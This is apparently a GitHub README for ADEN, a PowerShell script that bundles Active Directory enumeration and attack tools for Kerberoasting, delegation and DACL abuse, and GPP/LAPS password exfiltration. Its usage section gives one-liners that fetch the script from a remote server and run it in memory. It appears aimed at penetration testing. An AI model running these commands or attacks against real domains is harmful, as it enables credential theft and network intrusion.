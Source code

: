 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL
- New-GPOImmediateTask


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are launching the script for the first time, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to initially map the environment.\
\
From another domain user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- Linked MSSQL Instances Abuse
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
